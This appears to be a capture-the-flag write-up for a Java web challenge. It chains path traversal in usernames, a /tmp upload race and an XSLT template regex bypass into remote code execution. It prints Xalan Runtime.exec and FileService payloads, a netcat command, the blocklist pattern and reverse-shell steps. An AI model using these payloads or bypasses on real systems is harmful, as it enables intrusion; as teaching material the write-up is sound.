

# Solution

The web application contains the following features as public user:
- User login with password (low authorization)
- User login with challenge-response (high authorization)
- User registration

The app offers different features depending on the level of authorization (high or low):
- Item registration and listing (low authorization)
- Profile picture upload (low authorization)
- Key listing (low authorization)
- Item export (high authorization)
- Export template change (high authorization)

## Remote code execution vulnerability

Provided source files can be analyzed for better look into the application's inner workings. The application holds a code execution vulnerability since it supports custom templates for XSLT transformation of items to be exported.

```java
public String fetchUserTemplateOrDefault(Partner partner) throws IOException {
    String template = partner.getTemplate();
    if (template == null || template.isEmpty()) {
        File file = ResourceUtils.getFile("classpath:template.xslt");
        template = Files.readString(file.toPath());
    }
    return template;
}

public String processItem(Long id, Partner partner) throws Exception {
    String template = fetchUserTemplateOrDefault(partner);

    Optional<ShoppingItem> item = shoppingItemRepository.findByIdAndPartner(id, partner);
    if (item.isEmpty()) {
        return null;
    }

    return render(template.getBytes(), item.get());
}
```

The meaning of user defined XSLT templates is that we can supply an XSLT template that calls Java class methods and executes their code, the only catch is that we should login with high authorization to the application in order to access the custom template functionality.

## Elevating a user to high authorization

### No username validation to local file inclusion - first element in the chain

Further inspection of code shows that during high authorization verification web app checks for user's public key by reading a file named `[username].pub`:

```java
public boolean verifyRsa(byte[] challenge, byte[] response, String username)
        throws NoSuchAlgorithmException, InvalidKeyException,
        SignatureException, IOException, InvalidKeySpecException {
    Signature s = Signature.getInstance("SHA256withRSA");
    s.initVerify(loadKeyFile(username));
    s.update(challenge);
    return s.verify(response);
}

public PublicKey loadKeyFile(String username)
        throws IOException, NoSuchAlgorithmException, InvalidKeySpecException {
    byte[] key = Files.readAllBytes(Path.of(String.join(new String(), username, ".pub")));
    X509EncodedKeySpec spec = new X509EncodedKeySpec(key);
    return KeyFactory.getInstance("RSA").generatePublic(spec);
}
```

The `Files.readAllBytes(Path.of(String.join(new String(), username, ".pub")))` will load any local path that's defined by `username`. Since `username` is not validated during registration and influenced by external user input, we can abuse this "local file inclusion" vulnerability to pivot to a public key of our choice that is stored on the application's file system.

What we would need now is a way to get to a local public key file or plant our own file on the file system.

### Profile photo upload to planting our own public key - second element in the chain

Well, there is a potential way to plant our own file on the file system by using the "Upload profile picture" feature in the application. This is what the `FileService` does when upload is triggered:

```java
public Avatar fileToAvatar(MultipartFile file, Partner partner) throws Exception {
    File tf = tempStore(file);
    String checksum = calculateChecksum(file.getBytes());
    String b64Data = toBase64Data(file);
    String fileType = determineFileType(tf);

    if (!tf.delete()) {
        Files.delete(tf.toPath());
    }

    if (fileType == null) {
        throw new InvalidParameterException();
    }

    Avatar avatar = partner.getAvatar();
    if (avatar == null) {
        avatar = new Avatar(b64Data, checksum, fileType, partner);
    } else {
        avatar.setPartner(partner);
        avatar.setImage(b64Data);
        avatar.setChecksum(checksum);
        avatar.setFileType(fileType);
    }
    return avatarRepository.save(avatar);
}
```

Observe how uploaded file is first temporarily stored in the temporary folder (`/tmp`) with `tempStore(file)`. The method calculates all data, determines its file type and deletes it when all metadata is collected. In case the file is not determined to be `PNG` or `JPG`, the upload is cancelled.

This small time frame during which metadata is collected should be enough time to plant our public key on the file system for several hundred milliseconds.

### Gluing things together - a race condition to high authorization

Therefore, with these two elements in the chain, we can authorize a user to perform a valid high level authorization by following these simple steps:
- Create first user (u1)
- Create second user (u2) which abuses the local file inclusion vulnerability
  - Let's say his username is `../../../../../../tmp/u2`
- Start executing file uploads with user u1 indefinitely
  - User u1 uploads a public key named `u2.pub`
  - This results in a small time frame where a public key `/tmp/u2.pub` exists on the file system
- Start executing high authorization login with user u2
  - A fixed challenge can be used here since no validation on challenge string is performed
  - User u2 sends a request with a signature of a challenge string of his choice which was performed previously

Eventually, the web application will:
- Create a temporary `/tmp/u2.pub` file because user u1 is uploading `u2.pub` constantly
- Receive user's `../../../../../../tmp/u2` challenge signature at the same time
- Perform check whether `/tmp/u2.pub` exists (it does)
- Validate signature and deliver a JWT token that gives user u2 high authorization level

The race condition part is contained in the complete exploit chain script `solve.py`.

## Exploiting a remote code execution vulnerability

After we've got access to our template and item export processing, we can perform code execution via XSLT transformation. Unfortunately, if a sample XSLT payload is uploaded, the application will not allow it:

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
  <xsl:template match="/">
    <xsl:variable name="rtobject" select="rt:getRuntime()"/>
    <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
    <xsl:variable name="processString" select="ob:toString($process)"/>
    <xsl:value-of select="$processString"/>
  </xsl:template>
</xsl:stylesheet>
```

The thing is, template upload is validated for potential malicious content via regex:

```java
private static final Pattern INVALID_TEMPLATE_PATTERN =
        Pattern.compile("runtime|exec|process|cmd|bash|start|command", Pattern.CASE_INSENSITIVE);

public void submitUserTemplate(Partner partner, String template) {
    Matcher matcher = INVALID_TEMPLATE_PATTERN.matcher(template);
    if (matcher.find()) {
        throw new InvalidParameterException("invalid template");
    }
    partner.setTemplate(template);
    partnerRepository.save(partner);
}
```

### Living of the land

In order to execute code on the machine, one has to come up with its own payload that does not use `Runtime` or `ProcessBuilder`. If we dig more into the code, we can achieve this somewhat easily by using application classes, `FileService` class in particular since it contains a `run` method:

```java
public String run(String... args) throws IOException, InterruptedException {
    ProcessBuilder processBuilder = new ProcessBuilder(args);
    Process process = processBuilder.start();
    int exit = process.waitFor();
    if (exit != 0) {
        return null;
    }

    BufferedReader in = new BufferedReader(new InputStreamReader(process.getInputStream()));
    String s;
    StringBuilder out = new StringBuilder();
    while ((s = in.readLine()) != null) {
        out.append(s);
    }
    return out.toString();
}
```

Crafting an XSLT template that uses the `FileService` class' `run` method is a bit tricky, since we need to execute its constructor first, which requires `AvatarRepository` instance as its one and only parameter:

```java
@Autowired
public FileService(AvatarRepository avatarRepository) {
    this.avatarRepository = avatarRepository;
}
```

Xalan documentation contains a lot of information on how to instantiate classes, I suggest reading those as they are vital for this last step in performing code execution.

What we can't do here is most definitely instantiate an `AvatarRepository` instance since its defined as an interface and its completely managed by Spring Boot. Therefore, we have to pass a `null` value to this constructor. Passing a simple `null` via XSLT will most certainly fail with an error since Xalan parses it as a node element for some reason.

This can be evaded by instantiating any model class which is empty, and use a getter on a property that returns an object - since the model class is empty, the getter will return a null:

```xml
<xsl:variable name="partner" select="java:org.ibctf.model.Partner.new()"/>
<xsl:variable name="avatar" select="java:getAvatar($partner)"/>
<xsl:variable name="fileservice" select="java:org.ibctf.service.FileService.new($avatar)"/>
```

The result of the XSLT snippet is a working instance of `FileService`. Now we need to find a way how to call the `run` method with appropriate `String...` (syntactic sugar for `String[]`) parameters.

Since we have access to all Java classes, we can easily instantiate a `String` instance and perform a call to its `split` method to get a `String[]` instance that holds both the program and its arguments. When this `String[]` variable is available, we can just pass it to the `run` method of the instantiated `FileService` in XSLT:

```xml
<xsl:variable name="payload" select="java:java.lang.String.new('nc localhost 4444')"/>
<xsl:variable name="params" select="java:split($payload, ' ')"/>
<xsl:variable name="fileservice" select="java:org.ibctf.service.FileService.new($avatar)"/>
<xsl:variable name="output" select="java:run($fileservice, $params)"/>
```

## Getting the flag

Since `run` allows us to execute only one program (chaining them will fail the execution), we can obtain a reverse shell in a few simple steps:
- Run an HTTP server that contains the reverse shell script
- Run a reverse shell listener
- Force the server to:
  - Download the reverse shell script via HTTP
  - Execute `chmod +x` on the shell script
  - Run the shell script

The complete flow explained in the writeup is written in code and can be found in the `solve.py` script.

When we access the machine there is a note in the home folder explaining how to read the `flag.txt` file:


